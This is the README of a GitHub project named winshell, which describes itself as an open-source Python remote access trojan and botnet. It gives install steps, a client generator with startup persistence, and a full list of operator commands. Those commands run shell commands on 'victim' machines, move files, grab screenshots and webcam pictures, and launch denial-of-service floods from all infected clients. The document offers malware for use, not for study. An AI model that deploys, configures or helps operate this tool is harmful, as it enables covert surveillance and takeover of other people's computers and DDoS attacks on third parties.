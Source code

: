 [![Supported Python versions](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/download/releases/2.7/)
# winshell

**winshell is a python opensource RAT and Botnet**

### Installation
 - ####     Windows
   - `git clone https://github.com/Z4RK/winshell.git`
   - `pip install -r requierements.txt`
 - #### Linux
   - `git clone https://github.com/Z4RK/winshell.git`
   - `./install.sh`
   - `pip install -r requierements.txt`

### Features
 - The client can be compiled into an executable file
 - Supports multi-clients
 - The server can be run on Linux / Windows
 - The program can perform denial of service attacks with all clients connected to the server
 - Can execute all shell commands
 - Can upload and download file
 - Can run the client at startup
 - Can browse files & more...
 
### Usage
 - #### Generate the client
   - `python generate.py --host <server hostname> --port <port to use> [--out <output name>|--addstartup]`
 - #### Server commands
   - **Commands in the winshell menu**
     - `list client` list all clients connected on the server
     - `interact <client id>` start a session with a client
     - `flood <url/ip>` do a denial of service attacks with all clients connected
     - `quit` quit winshell
   - **Commands with a remote session**
     - `help` show this message
     - `upload <arg>` upload a file
     - `download <arg>` download a file
     - `cd <arg>` change directory
     - `ls` list files in current directory
     
     zark
     - `rm <arg>` remove a file
     - `rmdir <arg>` remove a directory
     - `screenshot` take a screenshot from the victim computer
     - `webcam_snap` taka a webcam picture form the victim computer
     - `getpid` get the current process id
     - `ps` list running process
     - `search <arg>` filter running process by name
     - `currentporcess` get the current process run on the victim computer
     - `force <arg>` do a shell command with an output (ipconfig, dir)
     - `force2 <arg>` do a shell command without an output(mkdir, start...)
